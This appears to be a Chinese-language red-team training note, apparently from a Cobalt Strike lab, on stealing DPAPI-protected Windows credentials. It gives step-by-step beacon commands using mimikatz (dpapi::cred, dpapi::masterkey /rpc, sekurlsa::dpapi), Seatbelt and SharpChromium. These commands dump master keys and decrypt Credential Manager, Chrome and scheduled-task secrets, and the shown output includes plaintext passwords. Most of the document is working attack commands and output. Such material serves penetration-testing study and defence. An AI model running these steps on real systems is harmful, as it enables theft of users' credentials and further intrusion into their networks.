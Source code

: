 # Data Protection API

Data Protection API是windows里面的一个组件，被windows管理器用来加解密各种用户凭据，比如RDP等。

谷歌浏览器也会用DPAPI保存网站的用户凭据。

# Credential Manager
credential manager blobs存储在```AppData```目錄

```
 beacon> ls C:\Users\bfarmer\AppData\Local\Microsoft\Credentials

 Size     Type    Last Modified         Name
 ----     ----    -------------         ----
 372b     fil     02/25/2021 13:07:38   9D54C839752B38B233E5D56FDD7891A7
 10kb     fil     02/21/2021 11:49:40   DFBE70A7E5CC19A398EBF1B96859CE5D
```


 使用windows自带的vaultcmd命令可以列出
```
 beacon> run vaultcmd /listcreds:"Windows Credentials" /all
```

 或者mimikatz
```
 beacon> mimikatz vault::list
```

使用Seatbelt.exe,使用```WindowsVault```参数
```
beacon> execute-assembly C:\Tools\Seatbelt\Seatbelt\bin\Release\Seatbelt.exe WindowsVault
```

或者```WindowsCredentialFiles```
```
beacon> execute-assembly C:\Tools\Seatbelt\Seatbelt\bin\Release\Seatbelt.exe WindowsCredentialFiles
```


要解密凭据，需要找到```master encryption key```

## 寻找GUID方法一

执行```dpapi::cred```,指定要解密的凭据路径
```
 beacon> mimikatz dpapi::cred /in:C:\Users\bfarmer\AppData\Local\Microsoft\Credentials\9D54C839752B38B233E5D56FDD7891A7

BLOB
  dwVersion          : 00000001 - 1
  guidProvider       : {df9d8cd0-1501-11d1-8c7a-00c04fc297eb}
  dwMasterKeyVersion : 00000001 - 1
  guidMasterKey      : {a23a1631-e2ca-4805-9f2f-fe8966fd8698}
  dwFlags            : 20000000 - 536870912 (system ; )
  dwDescriptionLen   : 00000030 - 48
  szDescription      : Local Credential Data

  algCrypt           : 00006603 - 26115 (CALG_3DES)
  dwAlgCryptLen      : 000000c0 - 192
  dwSaltLen          : 00000010 - 16
  pbSalt             : f8fb8d0f5df3f976e445134a2410ffcd
  dwHmacKeyLen       : 00000000 - 0
  pbHmackKey         : 
  algHash            : 00008004 - 32772 (CALG_SHA1)
  dwAlgHashLen       : 000000a0 - 160
  dwHmac2KeyLen      : 00000010 - 16
  pbHmack2Key        : e8ae77b9f12aef047664529148beffcc
  dwDataLen          : 000000b0 - 176
  pbData             : b8f619[...snip...]b493fe
  dwSignLen          : 00000014 - 20
  pbSign             : 2e12c7baddfa120e1982789f7265f9bb94208985
```

guidMasterKey包含解密所需密钥的 GUID，上面是：```a23a1631-e2ca-4805-9f2f-fe8966fd8698```

```pbData```就是我们要解密的内容

也可以在这个目录```AppData\Roaming\Microsoft\Protect```上找到GUID
> The Master Key information is stored within the user's AppData\Roaming\Microsoft\Protect directory (where S-1-5-21-* is their SID).

```
 beacon> ls C:\Users\bfarmer\AppData\Roaming\Microsoft\Protect\S-1-5-21-3263068140-2042698922-2891547269-1120

 Size     Type    Last Modified         Name
 ----     ----    -------------         ----
 740b     fil     02/21/2021 11:49:40   a23a1631-e2ca-4805-9f2f-fe8966fd8698
 928b     fil     02/21/2021 11:49:40   BK-DEV
 24b      fil     02/21/2021 11:49:40   Preferred
```

## 寻找GUID方法二
```
beacon> mimikatz !sekurlsa::dpapi

Authentication Id : 0 ; 1075454 (00000000:001068fe)
Session           : RemoteInteractive from 2
User Name         : bfarmer
Domain            : DEV
Logon Server      : DC-2
Logon Time        : 9/6/2022 9:09:54 AM
SID               : S-1-5-21-569305411-121244042-2357301523-1104
   [00000000]
   * GUID      :  {bfc5090d-22fe-4058-8953-47f6882f549e}
   * Time      :  9/6/2022 11:27:44 AM
   * MasterKey :  8d15395a4bd40a61d5eb6e526c552f598a398d530ecc2f5387e07605eeab6e3b4ab440d85fc8c4368e0a7ee130761dc407a2c4d58fcd3bd3881fa4371f19c214
   * sha1(key) :  897f7bf129e6a898ff4e20e9789009d5385be1f3
```

## 找masterkey

1. 直接指定要查找的GUID的masterkey

知道了GUID，利用mimikatz获取masterkey，需要system或管理员权限
```
 beacon> mimikatz dpapi::masterkey /in:C:\Users\bfarmer\AppData\Roaming\Microsoft\Protect\S-1-5-21-3263068140-2042698922-2891547269-1120\a23a1631-e2ca-4805-9f2f-fe8966fd8698 /rpc

[domainkey] with RPC
[DC] 'dev.cyberbotic.io' will be the domain
[DC] 'dc-2.dev.cyberbotic.io' will be the DC server
  key : 0c0105785f89063857239915037fbbf0ee049d984a09a7ae34f7cfc31ae4e6fd029e6036cde245329c635a6839884542ec97bf640242889f61d80b7851aba8df
  sha1: e3d7a52f1755a35078736eecb5ea6a23bb8619fc
```

上面的key就是解密需要的masterkey

2. 导出所有的masterkey，根据GUID查找
```
mimikatz !sekurlsa::dpapi
```

## 解密

解密凭据，得到明文密码：```Sup3rman```
```
beacon> mimikatz dpapi::cred /in:C:\Users\bfarmer\AppData\Local\Microsoft\Credentials\9D54C839752B38B233E5D56FDD7891A7 /masterkey:0c0105785f89063857239915037fbbf0ee049d984a09a7ae34f7cfc31ae4e6fd029e6036cde245329c635a6839884542ec97bf640242889f61d80b7851aba8df

Decrypting Credential:
 [...snip...]
  UserName       : DEV\bfarmer
  CredentialBlob : Sup3rman
```

在上面的例子中，bfarmer是SRV-1的本地管理员，所以他们只是保存了自己的域凭证。值得注意的是，即使他们有本地凭证，甚至保存了一套不同的域凭证，解密的过程也是完全一样的。


# Google Chrome

Chrome的用户凭据也是存放在```AppData```目录
```
beacon> ls C:\Users\bfarmer\AppData\Local\Google\Chrome\User Data\Default

 Size     Type    Last Modified         Name
 ----     ----    -------------         ----
 40kb     fil     02/25/2021 13:21:18   Login Data
```

可以使用[SharpChromium](https://github.com/djhohnstein/SharpChromium)破解里面的密码

```
beacon> execute-assembly C:\Tools\SharpChromium\bin\Debug\SharpChromium.exe logins

[*] Beginning Google Chrome extraction.

--- Chromium Credential (User: bfarmer) ---
URL      : 
Username : bfarmer
Password : Sup3rman

[*] Finished Google Chrome extraction.
[*] Done.
```

# Scheduled Task Credentials

计划任务可以保存凭据，以便它们可以在用户的​​上下文中运行，而无需登录。如果我们在机器上拥有本地管理员权限，我们可以用几乎相同的方式解密它们。Blob 保存在```C:\Windows\System32\config\systemprofile\AppData\Local\Microsoft\Credentials\```

```
beacon> ls C:\Windows\System32\config\systemprofile\AppData\Local\Microsoft\Credentials

 Size     Type    Last Modified         Name
 ----     ----    -------------         ----
 10kb     fil     08/30/2022 12:42:24   DFBE70A7E5CC19A398EBF1B96859CE5D
 528b     fil     08/16/2022 14:55:28   F3190EBE0498B77B4A85ECBABCA19B6E
```


```dpapi::cred```可以告诉我们用于加密每个密钥的主密钥的 GUID
```
beacon> mimikatz dpapi::cred /in:C:\Windows\System32\config\systemprofile\AppData\Local\Microsoft\Credentials\F3190EBE0498B77B4A85ECBABCA19B6E

guidMasterKey      : {aaa23e6b-bba8-441d-923c-ec242d6690c3}
```

```sekurlsa::dpapi```转储缓存的密钥
```
beacon> mimikatz !sekurlsa::dpapi

   [00000000]
   * GUID      :  {aaa23e6b-bba8-441d-923c-ec242d6690c3}
   * Time      :  9/6/2022 12:14:38 PM
   * MasterKey :  10530dda04093232087d35345bfbb4b75db7382ed6db73806f86238f6c3527d830f67210199579f86b0c0f039cd9a55b16b4ac0a3f411edfacc593a541f8d0d9
   * sha1(key) :  cfbc842e78ee6713fa5dcb3c9c2d6c6d7c09f06c
```

解密
```
beacon> mimikatz dpapi::cred /in:C:\Windows\System32\config\systemprofile\AppData\Local\Microsoft\Credentials\F3190EBE0498B77B4A85ECBABCA19B6E /masterkey:10530dda04093232087d35345bfbb4b75db7382ed6db73806f86238f6c3527d830f67210199579f86b0c0f039cd9a55b16b4ac0a3f411edfacc593a541f8d0d9

  TargetName     : Domain:batch=TaskScheduler:Task:{86042B87-C8D0-40A5-BB58-14A45356E01C}
  UserName       : DEV\jking
  CredentialBlob : Qwerty123
```
